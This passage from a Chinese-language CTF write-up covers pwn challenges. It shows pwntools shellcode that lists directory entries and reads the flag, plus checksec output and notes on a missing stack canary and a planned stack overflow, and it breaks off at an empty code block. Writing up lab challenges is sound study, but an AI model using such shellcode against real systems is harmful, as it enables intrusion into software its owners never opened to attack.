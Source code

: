```sh
shellcode1 = '''
    push rbp
    mov rbp, rsp
    sub rsp, 0x200
'''
shellcode1 += shellcraft.open("./")
shellcode1 += shellcraft.getdents(3, "rsp", 0x200)
shellcode1 += shellcraft.write(1, "rsp", 0x200)
shellcode1 += '''
        leave
        ret
'''

shellcode2 = {$orw}
```
##### &emsp;&emsp;&emsp;博主写的时候由于用的wsl，不知为何wsl上pwntools的asm()很慢，导致两次shellcode间隔超过1s，flag文件名已经变了，死活过不了，后来用虚拟机直接过😅。
### 😎 头号玩家(🤖Mid)
```
⚠ 题目描述
隐匿在品学楼之中的幽灵，
不可观测，难以言喻

旧时，会有许多人前去寻找他，
或恐惧、或期待

话虽如此，
真正的他，或许早已被人忘却

💡 Hint
💻 题目附件
点击下载

🚩 Flag格式
cnss{meaningful_sentence}

🔨 暴打出题人
@Orchid
```
##### &emsp;&emsp;&emsp;谜语人题目，前置知识是看过头号玩家（至少是电影中的第一关）<br>&emsp;&emsp;&emsp;实现逻辑比较长，这里就不贴了，简单来说就是根据程序的随机输出，做一个类似Yes or No的游戏，初始有30分，50次机会，答对一次加一分，错一次减一分。玩完之后，有一个读入字符串的机会，有多少分就可以读多少字符。<br>&emsp;&emsp;&emsp;本题依然checksec魅力时刻
```sh
root@PainTech:/home/pwn/worktable/cnss2024# checksec pwn6
[*] '/home/pwn/worktable/cnss2024/pwn6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```
##### &emsp;&emsp;&emsp;显示```Canary found```，实际上根本没有。一般题目可以在IDA中去找找```__stack_chk_fail```函数，如果有就是有Canary；但本题静态链接，东西多不好找，所以动调看```rbp - 0x8```有没有Canary，发现没有。<br>
##### &emsp;&emsp;&emsp;本题的打法有两种，先说正解，也就是和头号玩家有关系的解法。
![Screenshot 2024-09-27 103245.png](https://www.helloimg.com/i/2024/09/27/66f617fc16ef9.png)
##### &emsp;&emsp;&emsp;关键点在于正着开不行要你倒着开。由于没Canary，所以要打一个栈溢出，但问题是如果全部答对，也只有80字节，这个大小只够恰好覆盖到返回地址，根本不够ROPchain
```c
```